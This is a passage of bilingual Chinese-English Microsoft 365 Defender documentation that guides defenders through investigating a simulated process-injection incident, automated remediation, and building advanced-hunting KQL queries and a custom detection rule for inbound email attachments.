<span data-ttu-id="ba19a-207">我们采用大规模学习算法来建立组织和全球范围内常见流程的正常行为，并观察这些进程何时显示异常行为。</span><span class="sxs-lookup"><span data-stu-id="ba19a-207">We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes show anomalous behaviors.</span></span> <span data-ttu-id="ba19a-208">这些异常行为通常指示已引入多余的代码，并且正在其他受信任进程中运行。</span><span class="sxs-lookup"><span data-stu-id="ba19a-208">These anomalous behaviors often indicate that extraneous code was introduced and are running in an otherwise trusted process.</span></span>

<span data-ttu-id="ba19a-209">对于此方案，此过程 <i>notepad.exe</i> 异常行为，包括与外部位置的通信。</span><span class="sxs-lookup"><span data-stu-id="ba19a-209">For this scenario, the process <i>notepad.exe</i> is exhibiting abnormal behavior, involving communication with an external location.</span></span> <span data-ttu-id="ba19a-210">此结果独立于用于引入和执行恶意代码的特定方法。</span><span class="sxs-lookup"><span data-stu-id="ba19a-210">This outcome is independent of the specific method used to introduce and execute the malicious code.</span></span>

> [!NOTE]
> <span data-ttu-id="ba19a-211">由于此警报基于需要其他后端处理的机器学习模型，因此在门户中看到此警报可能需要一些时间。</span><span class="sxs-lookup"><span data-stu-id="ba19a-211">Because this alert is based on machine-learning models that require additional backend processing, it might take some time before you see this alert in the portal.</span></span>

<span data-ttu-id="ba19a-212">请注意，警报详细信息包括外部 IP 地址，该地址是一个可用于扩展调查的透视指示器。</span><span class="sxs-lookup"><span data-stu-id="ba19a-212">Notice that the alert details include the external IP address—an indicator that you can use as a pivot to expand investigation.</span></span>

<span data-ttu-id="ba19a-213">在警报进程树中选择 IP 地址以查看 IP 地址详细信息页面。</span><span class="sxs-lookup"><span data-stu-id="ba19a-213">Select the IP address in the alert process tree to view the IP address details page.</span></span>



<span data-ttu-id="ba19a-215">下图显示了单击警报进程树 (IP 地址时所选的 IP 地址) 。</span><span class="sxs-lookup"><span data-stu-id="ba19a-215">The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).</span></span>
<span data-ttu-id="ba19a-216"></span><span class="sxs-lookup"><span data-stu-id="ba19a-216"></span></span>

#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a><span data-ttu-id="ba19a-217">警报：SMB (用户和 IP 地址重新)  (源：Microsoft Defender for Identity) </span><span class="sxs-lookup"><span data-stu-id="ba19a-217">Alert: User and IP address reconnaissance (SMB) (Source: Microsoft Defender for Identity)</span></span>

<span data-ttu-id="ba19a-218">使用服务器消息阻止 (SMB) 协议的枚举使攻击者能够获取最近的用户登录信息，这些信息可帮助他们稍后在网络中移动以访问特定的敏感帐户。</span><span class="sxs-lookup"><span data-stu-id="ba19a-218">Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.</span></span>

<span data-ttu-id="ba19a-219">在此检测中，当 SMB 会话枚举针对域控制器运行时将触发警报。</span><span class="sxs-lookup"><span data-stu-id="ba19a-219">In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.</span></span>


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a><span data-ttu-id="ba19a-221">查看设备时间线 [Microsoft Defender for Endpoint]</span><span class="sxs-lookup"><span data-stu-id="ba19a-221">Review the device timeline [Microsoft Defender for Endpoint]</span></span>

<span data-ttu-id="ba19a-222">在浏览此事件中的各种警报后，导航回之前调查的事件页面。</span><span class="sxs-lookup"><span data-stu-id="ba19a-222">After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier.</span></span> <span data-ttu-id="ba19a-223">选择 **事件页面中** 的"设备"选项卡，查看 Microsoft Defender for Endpoint 和 Microsoft Defender for Identity 报告的事件所涉及的设备。</span><span class="sxs-lookup"><span data-stu-id="ba19a-223">Select the **Devices** tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender for Endpoint and Microsoft Defender for Identity.</span></span>

<span data-ttu-id="ba19a-224">选择执行攻击的设备的名称，以打开该特定设备的实体页面。</span><span class="sxs-lookup"><span data-stu-id="ba19a-224">Select the name of the device where the attack was conducted, to open the entity page for that specific device.</span></span> <span data-ttu-id="ba19a-225">在此页面中，你可以看到触发的警报和相关事件。</span><span class="sxs-lookup"><span data-stu-id="ba19a-225">In that page, you can see alerts that were triggered and related events.</span></span>

<span data-ttu-id="ba19a-226">选择 **"** 时间线"选项卡以打开设备时间线，并按时间顺序查看在设备上观测到的所有事件和行为，与触发的警报交错。</span><span class="sxs-lookup"><span data-stu-id="ba19a-226">Select the **Timeline** tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.</span></span>


<span data-ttu-id="ba19a-228">展开一些更有趣的行为可提供有用的详细信息，例如进程树。</span><span class="sxs-lookup"><span data-stu-id="ba19a-228">Expanding some of the more interesting behaviors provides useful details, such as process trees.</span></span>

<span data-ttu-id="ba19a-229">例如，向下滚动，直到找到观察到的警报事件 **可疑进程注入**。</span><span class="sxs-lookup"><span data-stu-id="ba19a-229">For example, scroll down until you find the alert event **Suspicious process injection observed**.</span></span> <span data-ttu-id="ba19a-230">选择 **powershell.exe** 以notepad.exe进程事件，在侧窗格的"事件实体"图形下显示此行为的完整进程树。 </span><span class="sxs-lookup"><span data-stu-id="ba19a-230">Select the **powershell.exe injected to notepad.exe process** event below it, to display the full process tree for this behavior under the **Event entities** graph on the side pane.</span></span> <span data-ttu-id="ba19a-231">如有必要，请使用搜索栏进行筛选。</span><span class="sxs-lookup"><span data-stu-id="ba19a-231">Use the search bar for filtering if necessary.</span></span>


### <a name="review-the-user-information-microsoft-cloud-app-security"></a><span data-ttu-id="ba19a-233">查看用户信息 [Microsoft Cloud App Security]</span><span class="sxs-lookup"><span data-stu-id="ba19a-233">Review the user information [Microsoft Cloud App Security]</span></span>

<span data-ttu-id="ba19a-234">在事件页面上，选择" **用户** "选项卡以显示攻击所涉及的用户列表。</span><span class="sxs-lookup"><span data-stu-id="ba19a-234">On the incident page, select the **Users** tab to display the list of users involved in the attack.</span></span> <span data-ttu-id="ba19a-235">该表包含有关每个用户的其他信息，包括每个用户的调查 **优先级** 分数。</span><span class="sxs-lookup"><span data-stu-id="ba19a-235">The table contains additional information about each user, including each user's **Investigation Priority** score.</span></span>

<span data-ttu-id="ba19a-236">选择用户名以打开用户配置文件页，可在其中执行进一步调查。</span><span class="sxs-lookup"><span data-stu-id="ba19a-236">Select the user name to open the user's profile page where further investigation can be conducted.</span></span> <span data-ttu-id="ba19a-237">[阅读更多有关调查有风险的用户。](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify)</span><span class="sxs-lookup"><span data-stu-id="ba19a-237">[Read more about investigating risky users](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).</span></span>


## <a name="automated-investigation-and-remediation"></a><span data-ttu-id="ba19a-239">自动调查和修复</span><span class="sxs-lookup"><span data-stu-id="ba19a-239">Automated investigation and remediation</span></span>

> [!NOTE]
><span data-ttu-id="ba19a-240">在我们演示此模拟之前，请观看以下视频，以熟悉什么是自动自我修复、在门户中在哪里找到它，以及它在安全操作中如何提供帮助：</span><span class="sxs-lookup"><span data-stu-id="ba19a-240">Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

<span data-ttu-id="ba19a-241">在 Microsoft 365 安全中心门户中导航回事件。</span><span class="sxs-lookup"><span data-stu-id="ba19a-241">Navigate back to the incident in the Microsoft 365 Security Center portal.</span></span> <span data-ttu-id="ba19a-242">" **事件"** 页中的"调查 **"选项卡显示** 由 Microsoft Defender for Identity 和 Microsoft Defender for Endpoint 触发的自动调查。</span><span class="sxs-lookup"><span data-stu-id="ba19a-242">The **Investigations** tab in the **Incident** page shows the automated investigations that were triggered by Microsoft Defender for Identity and Microsoft Defender for Endpoint.</span></span> <span data-ttu-id="ba19a-243">下面的屏幕截图仅显示 Defender for Endpoint 触发的自动调查。</span><span class="sxs-lookup"><span data-stu-id="ba19a-243">The screenshot below displays only the automated investigation triggered by Defender for Endpoint.</span></span> <span data-ttu-id="ba19a-244">默认情况下，Defender for Endpoint 会自动修正队列中找到的项目，这需要修正。</span><span class="sxs-lookup"><span data-stu-id="ba19a-244">By default, Defender for Endpoint automatically remediates the artifacts found in the queue, which requires remediation.</span></span>


<span data-ttu-id="ba19a-246">选择触发调查的警报以打开"调查 **详细信息"** 页。</span><span class="sxs-lookup"><span data-stu-id="ba19a-246">Select the alert that triggered an investigation to open the **Investigation details** page.</span></span> <span data-ttu-id="ba19a-247">你将看到以下详细信息：</span><span class="sxs-lookup"><span data-stu-id="ba19a-247">You'll see the following details:</span></span>

- <span data-ttu-id="ba19a-248">警报 (触发) 调查的警报。</span><span class="sxs-lookup"><span data-stu-id="ba19a-248">Alert(s) that triggered the automated investigation.</span></span>
- <span data-ttu-id="ba19a-249">影响的用户和设备。</span><span class="sxs-lookup"><span data-stu-id="ba19a-249">Impacted users and devices.</span></span> <span data-ttu-id="ba19a-250">如果在其他设备上找到指示器，也会列出这些附加设备。</span><span class="sxs-lookup"><span data-stu-id="ba19a-250">If indicators are found on additional devices, these additional devices will be listed as well.</span></span>
- <span data-ttu-id="ba19a-251">证据列表。</span><span class="sxs-lookup"><span data-stu-id="ba19a-251">List of evidence.</span></span> <span data-ttu-id="ba19a-252">找到和分析的实体，如文件、进程、服务、驱动程序和网络地址。</span><span class="sxs-lookup"><span data-stu-id="ba19a-252">The entities found and analyzed, such as files, processes, services, drivers, and network addresses.</span></span> <span data-ttu-id="ba19a-253">这些实体会分析与警报的可能关系，并评分为恶意或恶意。</span><span class="sxs-lookup"><span data-stu-id="ba19a-253">These entities are analyzed for possible relationships to the alert and rated as benign or malicious.</span></span>
- <span data-ttu-id="ba19a-254">找到的威胁。</span><span class="sxs-lookup"><span data-stu-id="ba19a-254">Threats found.</span></span> <span data-ttu-id="ba19a-255">在调查过程中发现的已知威胁。</span><span class="sxs-lookup"><span data-stu-id="ba19a-255">Known threats that are found during the investigation.</span></span>

> [!NOTE]
> <span data-ttu-id="ba19a-256">根据时间，自动调查可能仍在运行。</span><span class="sxs-lookup"><span data-stu-id="ba19a-256">Depending on timing, the automated investigation might still be running.</span></span> <span data-ttu-id="ba19a-257">在收集并分析证据并查看结果之前，请等待几分钟，以完成该过程。</span><span class="sxs-lookup"><span data-stu-id="ba19a-257">Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results.</span></span> <span data-ttu-id="ba19a-258">刷新 **"调查详细信息** "页，获取最新发现。</span><span class="sxs-lookup"><span data-stu-id="ba19a-258">Refresh the **Investigation details** page to get the latest findings.</span></span>



<span data-ttu-id="ba19a-260">在自动调查期间，Microsoft Defender for Endpoint 标识了notepad.exe流程，该流程已注入为需要修正的项目之一。</span><span class="sxs-lookup"><span data-stu-id="ba19a-260">During the automated investigation, Microsoft Defender for Endpoint identified the notepad.exe process, which was injected as one of the artifacts requiring remediation.</span></span> <span data-ttu-id="ba19a-261">作为自动修正的一部分，Defender for Endpoint 会自动停止可疑进程注入。</span><span class="sxs-lookup"><span data-stu-id="ba19a-261">Defender for Endpoint automatically stops the suspicious process injection as part of the automated remediation.</span></span>

<span data-ttu-id="ba19a-262">你可以看到 <i>notepad.exe在 </i> 测试设备上正在运行的进程列表中消失。</span><span class="sxs-lookup"><span data-stu-id="ba19a-262">You can see <i>notepad.exe</i> disappear from the list of running processes on the test device.</span></span>

## <a name="resolve-the-incident"></a><span data-ttu-id="ba19a-263">解决事件</span><span class="sxs-lookup"><span data-stu-id="ba19a-263">Resolve the incident</span></span>

<span data-ttu-id="ba19a-264">完成调查并确认要修正后，关闭事件。</span><span class="sxs-lookup"><span data-stu-id="ba19a-264">After the investigation is complete and confirmed to be remediated, close the incident.</span></span>

<span data-ttu-id="ba19a-265">选择 **"管理事件"。**</span><span class="sxs-lookup"><span data-stu-id="ba19a-265">Select **Manage incident**.</span></span> <span data-ttu-id="ba19a-266">将状态设置为 **"解决事件"** 并选择相关分类。</span><span class="sxs-lookup"><span data-stu-id="ba19a-266">Set the status to **Resolve incident** and select the relevant classification.</span></span>

<span data-ttu-id="ba19a-267">当事件解决时，它将关闭 Microsoft 365 安全中心和相关门户中的所有关联警报。</span><span class="sxs-lookup"><span data-stu-id="ba19a-267">When the incident is resolved, it closes all of the associated alerts in Microsoft 365 Security Center and in the related portals.</span></span>


<span data-ttu-id="ba19a-269">这将结束针对事件管理和自动调查和修正方案的攻击模拟。</span><span class="sxs-lookup"><span data-stu-id="ba19a-269">This wraps up the attack simulation for the incident management and automated investigation and remediation scenarios.</span></span> <span data-ttu-id="ba19a-270">下一个模拟将让你完成针对潜在恶意文件的主动威胁搜寻。</span><span class="sxs-lookup"><span data-stu-id="ba19a-270">The next simulation will take you through proactive threat hunting for potentially malicious files.</span></span>

## <a name="advanced-hunting-scenario"></a><span data-ttu-id="ba19a-271">高级搜寻方案</span><span class="sxs-lookup"><span data-stu-id="ba19a-271">Advanced hunting scenario</span></span>

> [!NOTE]
> <span data-ttu-id="ba19a-272">在我们演示模拟之前，请观看以下视频，了解高级搜寻概念，查看可在门户中查找它的地方，并了解它如何可以帮助你执行安全操作：</span><span class="sxs-lookup"><span data-stu-id="ba19a-272">Before we walk you through the simulation, watch the following video to understand the advanced hunting concepts, see where you can find it in the portal, and know how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a><span data-ttu-id="ba19a-273">搜寻环境要求</span><span class="sxs-lookup"><span data-stu-id="ba19a-273">Hunting environment requirements</span></span>

<span data-ttu-id="ba19a-274">此方案需要单个内部邮箱和设备。</span><span class="sxs-lookup"><span data-stu-id="ba19a-274">There's a single internal mailbox and device required for this scenario.</span></span> <span data-ttu-id="ba19a-275">你还需要一个外部电子邮件帐户来发送测试邮件。</span><span class="sxs-lookup"><span data-stu-id="ba19a-275">You'll also need an external email account to send the test message.</span></span>

1. <span data-ttu-id="ba19a-276">验证租户是否已启用[Microsoft 365 Defender。](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)</span><span class="sxs-lookup"><span data-stu-id="ba19a-276">Verify that your tenant has [enabled Microsoft 365 Defender](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span></span>
2. <span data-ttu-id="ba19a-277">确定用于接收电子邮件的目标邮箱。</span><span class="sxs-lookup"><span data-stu-id="ba19a-277">Identify a target mailbox to be used for receiving email.</span></span>
    <span data-ttu-id="ba19a-278">a.</span><span class="sxs-lookup"><span data-stu-id="ba19a-278">a.</span></span> <span data-ttu-id="ba19a-279">Microsoft Defender for Office 365 b 必须监视此邮箱。</span><span class="sxs-lookup"><span data-stu-id="ba19a-279">This mailbox must be monitored by Microsoft Defender for Office 365 b.</span></span> <span data-ttu-id="ba19a-280">要求 3 中的设备需要访问此邮箱</span><span class="sxs-lookup"><span data-stu-id="ba19a-280">The device from requirement 3 needs to access this mailbox</span></span>
3. <span data-ttu-id="ba19a-281">配置测试设备：a.</span><span class="sxs-lookup"><span data-stu-id="ba19a-281">Configure a test device: a.</span></span> <span data-ttu-id="ba19a-282">确保使用的是 Windows 10 版本 1903 或更高版本。</span><span class="sxs-lookup"><span data-stu-id="ba19a-282">Make sure you are using Windows 10 version 1903 or later version.</span></span>
    <span data-ttu-id="ba19a-283">b.</span><span class="sxs-lookup"><span data-stu-id="ba19a-283">b.</span></span> <span data-ttu-id="ba19a-284">将测试设备加入测试域。</span><span class="sxs-lookup"><span data-stu-id="ba19a-284">Join the test device to the test domain.</span></span>
    <span data-ttu-id="ba19a-285">c.</span><span class="sxs-lookup"><span data-stu-id="ba19a-285">c.</span></span> <span data-ttu-id="ba19a-286">[打开Windows Defender防病毒。](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)</span><span class="sxs-lookup"><span data-stu-id="ba19a-286">[Turn on Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="ba19a-287">如果在启用防病毒时遇到Windows Defender，请参阅 [此疑难解答主题](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)。</span><span class="sxs-lookup"><span data-stu-id="ba19a-287">If you are having trouble enabling Windows Defender Antivirus, see [this troubleshooting topic](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    <span data-ttu-id="ba19a-288">d.</span><span class="sxs-lookup"><span data-stu-id="ba19a-288">d.</span></span> <span data-ttu-id="ba19a-289">[载入到适用于终结点的 Microsoft Defender。](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)</span><span class="sxs-lookup"><span data-stu-id="ba19a-289">[Onboard to Microsoft Defender for Endpoint](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

### <a name="run-the-simulation"></a><span data-ttu-id="ba19a-290">运行模拟</span><span class="sxs-lookup"><span data-stu-id="ba19a-290">Run the simulation</span></span>

1. <span data-ttu-id="ba19a-291">从外部电子邮件帐户向测试环境要求部分的步骤 2 中标识的邮箱发送电子邮件。</span><span class="sxs-lookup"><span data-stu-id="ba19a-291">From an external email account, send an email to the mailbox identified in step 2 of the test environment requirements section.</span></span> <span data-ttu-id="ba19a-292">包括任何现有电子邮件筛选器策略允许的附件。</span><span class="sxs-lookup"><span data-stu-id="ba19a-292">Include an attachment that will be allowed through any existing email filter policies.</span></span> <span data-ttu-id="ba19a-293">此文件不需要是恶意文件或可执行文件。</span><span class="sxs-lookup"><span data-stu-id="ba19a-293">This file does not need to be malicious or an executable.</span></span> <span data-ttu-id="ba19a-294">建议的文件类型为<i>.pdf、.exe</i> (（如果允许) ）或 Office 文档（如 Word 文件）。 <i></i></span><span class="sxs-lookup"><span data-stu-id="ba19a-294">Suggested file types are <i>.pdf</i>, <i>.exe</i> (if allowed), or Office document such as a Word file.</span></span>
2. <span data-ttu-id="ba19a-295">打开从设备发送的电子邮件，如测试环境要求部分的步骤 3 中定义。</span><span class="sxs-lookup"><span data-stu-id="ba19a-295">Open the sent email from the device configured as defined in step 3 of the test environment requirements section.</span></span> <span data-ttu-id="ba19a-296">打开附件或将文件保存到设备。</span><span class="sxs-lookup"><span data-stu-id="ba19a-296">Either open the attachment or save the file to the device.</span></span>

#### <a name="go-hunting"></a><span data-ttu-id="ba19a-297">转到搜寻</span><span class="sxs-lookup"><span data-stu-id="ba19a-297">Go hunting</span></span>

1. <span data-ttu-id="ba19a-298">打开security.microsoft.com门户。</span><span class="sxs-lookup"><span data-stu-id="ba19a-298">Open the security.microsoft.com portal.</span></span>

2. <span data-ttu-id="ba19a-299">导航到 **搜寻>高级搜寻**。</span><span class="sxs-lookup"><span data-stu-id="ba19a-299">Navigate to **Hunting > Advanced hunting**.</span></span>

   

3. <span data-ttu-id="ba19a-301">生成一个查询，该查询首先收集电子邮件事件。</span><span class="sxs-lookup"><span data-stu-id="ba19a-301">Build a query that starts by gathering email events.</span></span>

   1. <span data-ttu-id="ba19a-302">在查询窗格中，选择"新建"。</span><span class="sxs-lookup"><span data-stu-id="ba19a-302">From the query pane, select New.</span></span>

   1. <span data-ttu-id="ba19a-303">双击架构中的 EmailEvents 表。</span><span class="sxs-lookup"><span data-stu-id="ba19a-303">Double-click on the EmailEvents table from the schema.</span></span>

      ```console
      EmailEvents
      ```

   1. <span data-ttu-id="ba19a-304">将时间范围更改为过去 24 小时。</span><span class="sxs-lookup"><span data-stu-id="ba19a-304">Change the time frame to the last 24 hours.</span></span> <span data-ttu-id="ba19a-305">假定你在运行上述模拟时发送的电子邮件是过去 24 小时发送的，否则请更改时间范围。</span><span class="sxs-lookup"><span data-stu-id="ba19a-305">Assuming the email you sent when you ran the simulation above was in the past 24 hours, otherwise change the time frame.</span></span>

      

   1. <span data-ttu-id="ba19a-308">运行查询。</span><span class="sxs-lookup"><span data-stu-id="ba19a-308">Run the query.</span></span> <span data-ttu-id="ba19a-309">你可能有很多结果，具体取决于试点的环境。</span><span class="sxs-lookup"><span data-stu-id="ba19a-309">You may have many results depending on the environment for the pilot.</span></span>

      > [!NOTE]
      > <span data-ttu-id="ba19a-310">有关限制数据返回的筛选选项，请参阅下一步。</span><span class="sxs-lookup"><span data-stu-id="ba19a-310">See the next step for filtering options to limit data return.</span></span>

      

        > [!NOTE]
        > <span data-ttu-id="ba19a-312">高级搜寻将查询结果显示为表格数据。</span><span class="sxs-lookup"><span data-stu-id="ba19a-312">Advanced hunting displays query results as tabular data.</span></span> <span data-ttu-id="ba19a-313">还可以选择查看其他格式类型（如图表）的数据。</span><span class="sxs-lookup"><span data-stu-id="ba19a-313">You can also opt to view the data in other format types such as charts.</span></span>

   1. <span data-ttu-id="ba19a-314">查看结果，并查看能否识别打开的电子邮件。</span><span class="sxs-lookup"><span data-stu-id="ba19a-314">Look at the results and see if you can identify the email you opened.</span></span> <span data-ttu-id="ba19a-315">可能需要最多 2 小时才能在高级搜寻中显示消息。</span><span class="sxs-lookup"><span data-stu-id="ba19a-315">It may take up to 2 hours for the message to show up in advanced hunting.</span></span> <span data-ttu-id="ba19a-316">如果电子邮件环境很大，并且有很多结果，您可能需要使用"显示筛选器" **选项** 来查找邮件。</span><span class="sxs-lookup"><span data-stu-id="ba19a-316">If the email environment is large and there are many results, you might want to use the **Show Filters option** to find the message.</span></span>

      <span data-ttu-id="ba19a-317">在示例中，电子邮件从 Yahoo 帐户发送。</span><span class="sxs-lookup"><span data-stu-id="ba19a-317">In the sample, the email was sent from a Yahoo account.</span></span> <span data-ttu-id="ba19a-318">单击 **+** SenderFromDomain **yahoo.com** 旁边的图标，然后单击"应用"将所选域添加到查询。</span><span class="sxs-lookup"><span data-stu-id="ba19a-318">Click the **+** icon beside **yahoo.com** under the SenderFromDomain section and then click **Apply** to add the selected domain to the query.</span></span> <span data-ttu-id="ba19a-319">使用用于在运行模拟的步骤 1 中发送测试邮件的域或电子邮件帐户筛选结果。</span><span class="sxs-lookup"><span data-stu-id="ba19a-319">Use the domain or email account that was used to send the test message in step 1 of Run the Simulation to filter your results.</span></span> <span data-ttu-id="ba19a-320">再次运行查询，获取较小的结果集，以验证您是否看到来自模拟的消息。</span><span class="sxs-lookup"><span data-stu-id="ba19a-320">Run the query again to get a smaller result set to verify that you see the message from the simulation.</span></span>

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. <span data-ttu-id="ba19a-323">单击查询中生成的行，以便检查记录。</span><span class="sxs-lookup"><span data-stu-id="ba19a-323">Click the resulting rows from the query so you can inspect the record.</span></span>

      

4. <span data-ttu-id="ba19a-325">现在，你已验证了是否可以看到电子邮件，请添加附件筛选器。</span><span class="sxs-lookup"><span data-stu-id="ba19a-325">Now that you have verified that you can see the email, add a filter for the attachments.</span></span> <span data-ttu-id="ba19a-326">重点关注环境中包含附件的所有电子邮件。</span><span class="sxs-lookup"><span data-stu-id="ba19a-326">Focus on all emails with attachments in the environment.</span></span> <span data-ttu-id="ba19a-327">对于此方案，请专注于入站电子邮件，而不是从你的环境发送的电子邮件。</span><span class="sxs-lookup"><span data-stu-id="ba19a-327">For this scenario, focus on inbound emails, not those that are being sent out from your environment.</span></span> <span data-ttu-id="ba19a-328">删除已添加的任何筛选器以查找邮件并添加"|其中 **AttachmentCount > 0** 和 **EmailDirection**  ==  **"Inbound""**</span><span class="sxs-lookup"><span data-stu-id="ba19a-328">Remove any filters you have added to locate your message and add "| where **AttachmentCount > 0** and **EmailDirection** == **"Inbound""**</span></span>

   <span data-ttu-id="ba19a-329">下面的查询将显示一个列表短于所有电子邮件事件的初始查询的结果：</span><span class="sxs-lookup"><span data-stu-id="ba19a-329">The following query will show you the result with a shorter list than your initial query for all email events:</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. <span data-ttu-id="ba19a-330">接下来，包括有关附件 (，例如：文件名、) 哈希结果集。</span><span class="sxs-lookup"><span data-stu-id="ba19a-330">Next, include the information about the attachment (such as: file name, hashes) to your result set.</span></span> <span data-ttu-id="ba19a-331">为此，请加入 **EmailAttachmentInfo** 表。</span><span class="sxs-lookup"><span data-stu-id="ba19a-331">To do so, join the **EmailAttachmentInfo** table.</span></span> <span data-ttu-id="ba19a-332">用于联接的常用字段是 **NetworkMessageId** 和 **RecipientObjectId。**</span><span class="sxs-lookup"><span data-stu-id="ba19a-332">The common fields to use for joining, in this case are **NetworkMessageId** and **RecipientObjectId**.</span></span>

   <span data-ttu-id="ba19a-333">以下查询还包括一个附加行"| **项目重命名 EmailTimestamp=Timestamp"，** 帮助确定与电子邮件相关的时间戳与下一步将添加的文件操作相关的时间戳。</span><span class="sxs-lookup"><span data-stu-id="ba19a-333">The following query also includes an additional line "| **project-rename EmailTimestamp=Timestamp**" that'll help identify which timestamp was related to the email versus timestamps related to file actions that you'll add in the next step.</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. <span data-ttu-id="ba19a-334">接下来，使用 **EmailAttachmentInfo** 表中的 **SHA256** 值查找针对该哈希 (终结点上发生的 **DeviceFileEvents**) 文件操作。</span><span class="sxs-lookup"><span data-stu-id="ba19a-334">Next, use the **SHA256** value from the **EmailAttachmentInfo** table to find **DeviceFileEvents** (file actions that happened on the endpoint) for that hash.</span></span> <span data-ttu-id="ba19a-335">此处的常见字段是附件的 SHA256 哈希。</span><span class="sxs-lookup"><span data-stu-id="ba19a-335">The common field here will be the SHA256 hash for the attachment.</span></span>

   <span data-ttu-id="ba19a-336">生成的表现在包含终结点 (Microsoft Defender for Endpoint) 的详细信息，例如设备名称、在这种情况下 (已执行哪些操作、已筛选为仅包括 FileCreated 事件) 以及文件存储位置。</span><span class="sxs-lookup"><span data-stu-id="ba19a-336">The resulting table now includes details from the endpoint (Microsoft Defender for Endpoint) such as device name, what action was done (in this case, filtered to only include FileCreated events), and where the file was stored.</span></span> <span data-ttu-id="ba19a-337">还将包含与进程关联的帐户名称。</span><span class="sxs-lookup"><span data-stu-id="ba19a-337">The account name associated with the process will also be included.</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   <span data-ttu-id="ba19a-338">现在，你已创建一个查询，该查询将标识用户打开或保存附件的所有入站电子邮件。</span><span class="sxs-lookup"><span data-stu-id="ba19a-338">You've now created a query that'll identify all inbound emails where the user opened or saved the attachment.</span></span> <span data-ttu-id="ba19a-339">您还可以优化此查询以筛选特定发件人域、文件大小、文件类型等。</span><span class="sxs-lookup"><span data-stu-id="ba19a-339">You can also refine this query to filter for specific sender domains, file sizes, file types, and so on.</span></span>

7. <span data-ttu-id="ba19a-340">函数是一种特殊类型的联接，它让你可以拉取关于文件的更多 TI 数据，如其普遍程度、签名者和颁发者信息等。若要获取有关文件的更多详细信息，请使用 **FileProfile ()** function enrichment：</span><span class="sxs-lookup"><span data-stu-id="ba19a-340">Functions are a special kind of join, which let you pull more TI data about a file like its prevalence, signer and issuer info, etc. To get more details on the file, use the **FileProfile()** function enrichment:</span></span>

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a><span data-ttu-id="ba19a-341">创建检测</span><span class="sxs-lookup"><span data-stu-id="ba19a-341">Create a detection</span></span>

<span data-ttu-id="ba19a-342">创建一个标识要在将来是否发生警报的信息的查询后，可以从该查询创建自定义检测。</span><span class="sxs-lookup"><span data-stu-id="ba19a-342">Once you have created a query that identifies information that you'd like to **get alerted** about if they happen in the future, you can create a custom detection from the query.</span></span>

<span data-ttu-id="ba19a-343">自定义检测将根据您的设置的频率运行查询，查询结果将基于您选择的影响资产创建安全警报。</span><span class="sxs-lookup"><span data-stu-id="ba19a-343">Custom detections will run the query according to the frequency you set, and the results of the queries will create security alerts, based on the impacted assets you choose.</span></span> <span data-ttu-id="ba19a-344">这些警报将关联到事件，并作为其中一个产品生成的其他任何安全警报进行会审。</span><span class="sxs-lookup"><span data-stu-id="ba19a-344">Those alerts will be correlated to incidents and can be triaged as any other security alert generated by one of the products.</span></span>

1. <span data-ttu-id="ba19a-345">在查询页上，删除在"开始"搜寻说明的步骤 7 中添加的第 7 行和 8 行，然后单击 **"创建检测规则"。**</span><span class="sxs-lookup"><span data-stu-id="ba19a-345">On the query page, remove lines 7 and 8 that were added in step 7 of the Go hunting instructions and click **Create detection rule**.</span></span>

   

   > [!NOTE]
   > <span data-ttu-id="ba19a-347">如果单击 **"创建检测规则** "，并且查询中出现语法错误，将不会保存检测规则。</span><span class="sxs-lookup"><span data-stu-id="ba19a-347">If you click **Create detection rule** and you have syntax errors in your query, your detection rule won't be saved.</span></span> <span data-ttu-id="ba19a-348">仔细检查查询以确保没有错误。</span><span class="sxs-lookup"><span data-stu-id="ba19a-348">Double-check your query to ensure there's no errors.</span></span>

